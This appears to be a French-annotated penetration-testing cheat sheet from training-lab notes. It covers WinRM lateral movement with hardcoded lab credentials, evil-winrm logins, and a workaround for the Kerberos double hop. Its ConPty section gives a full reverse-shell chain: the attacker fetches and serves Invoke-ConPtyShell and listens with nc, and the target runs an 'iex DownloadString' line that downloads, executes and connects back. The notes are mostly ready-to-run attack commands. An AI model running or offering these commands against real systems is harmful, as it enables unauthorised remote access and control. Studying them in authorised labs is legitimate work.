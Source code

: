 

# WINDOWS

## Enter-PSSession

```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```
 
```powershell
Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
```


# LINUX

## Evil-WinRM (attention shell non interactif, penser a importer un autre shell afterward (ConPty par ex))

```sh
evil-winrm -i 10.129.201.248 -u Cry0l1t3 -p P455w0rD!
```

## ConPty

attacker

```
wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1
```

```
python3 -m http.server 80
```

```
stty raw -echo; (stty size; cat) | nc -lvnp 4444
```

target

```
iex (New-Object Net.WebClient).DownloadString('http://192.168.1.3/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell 192.168.1.3 4444
```


# KERBEROS DOUBLE HOP

> [!TIP]
> Lors de la connexion WINRM, les creds utilisés ne sont pas enregistrés en cache dans la session distante, ce qui empêche d'accéder aux autres ressources sans spécifier les creds.
> 2 Workaround:
> - Créer un PSCredential object
> - Register-PSSessionConfiguration


## PSCredential Object

Se réauthentifier dans la session powershell avec PSCredential (puis passer $cred en argument à chaque fois)

```Powershell
$SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)
```


## Register PSSession Configuration


Enregistrer la configuration de session avec les identifiants

```powershell
Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\backupadm
```

Redémarrer le service WinRM

```powershell
Restart-Service WinRM
```

Se connecter à la session en utilisant Enter-PSSESSION en spécifiant la configuration

```powershell
Enter-PSSession -ComputerName DEV01 -Credential INLANEFREIGHT\backupadm -ConfigurationName  backupadmsess
```
